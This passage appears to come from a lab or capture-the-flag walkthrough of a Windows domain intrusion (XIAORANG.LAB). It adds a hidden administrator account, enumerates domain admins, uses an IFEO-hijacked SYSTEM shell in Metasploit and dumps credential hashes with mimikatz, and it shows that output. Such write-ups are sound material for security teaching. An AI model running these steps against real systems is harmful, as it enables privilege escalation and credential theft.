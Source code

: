 ````sql

```bash
net user hacker2 qwer1234! /add
net localgroup administrators hacker2 /add
```

![](./images/16.png)

![](./images/17.png)

Query the information in the domain and found that `WIN2016$` is in the domain management group, that is, the machine account can be passed to the domain control `Hash`.

```bash
net group "domain admins" /domain
```

![](./images/18.png)

Use the previous IFEO to hijack the Shell with SYSTEM permissions to launch on MSF.

![](./images/19.png)

Then use `mimikatz` to grab `Hash`.

```bash
meterpreter > kiwi_cmd sekurlsa::logonpasswords

......
Authentication Id : 0 ; 996 (00000000:000003e4)
Session: Service from 0
User Name: WIN2016$
Domain : XIAORANG
Logon Server: (null)
Logon Time: 2023/12/1 21:05:27
SID: S-1-5-20
        msv:
         [000000003] Primary
         * Username: WIN2016$
         * Domain: XIAORANG
         * NTLM: 23d4fee9803cc89813fd6bbf00e2c939
         * SHA1: 6e5d40d21b3eb8be4e263524d3f0494f07f82cdd
        tspkg:
        wdigest:
         * Username: WIN2016$
         * Domain: XIAORANG
         * Password : (null)
        kerberos:
         * Username: win2016$
         * Domain: XIAORANG.LAB
         * Password : 59 a6 05 a5 d5 f3 6d 98 16 7b 8b a4 df dd e2 40 b5 d4 9c 19 43 e8 e7 f6 d2 56 ea 24 2f e6 73 fe 2f 9e 43 80 e8 d6 78 ad 61 c4 56 a4 d3 62 86 a8 93 9e 75 4a 1f f8 36 b7 45 89 18 e6 31 e1 82 07 7f e6 71 fe df 34 b4 f4 fd 95 44 b6 bd bb b8 51 a7 24 3d f0 16 ce 57 ae c7 23 a4 71 a0 36 8b d2 01 26 e9 e8 00 89 23 b3 7e d3 10 7d 0d 45 d2 6a a9 2d 6c 01 c8 94 77 83 cd 89 dd 32 72 19 c7 92 e2 06 23 6c fd 3f 52 a2 e2 0a 43 e1 c2 2b fb 3d 56 f8 e5 b6 da e6 89 e2 72 3a ce 59 b3 49 93 d0 51 01 63 07 66 40 71 2c 5d 25 79 c8 98 3b 49 77 cc 7a c8 98 60 51 03 0d dc a7 05 53 84 8b 0b 7f cb cf 8f fb 39 e6 dc e5 09 2a 83 27 d3 f6 9b b4 cc 92 69 68 cd c3 e9 11 c4 8e 9b 96 fe 5d 1b 6c 73 6d b8 48 3a 52 fe 32 f5 25 89 25 50 bb 36 f9
        ssp:
        credman:
......
```

````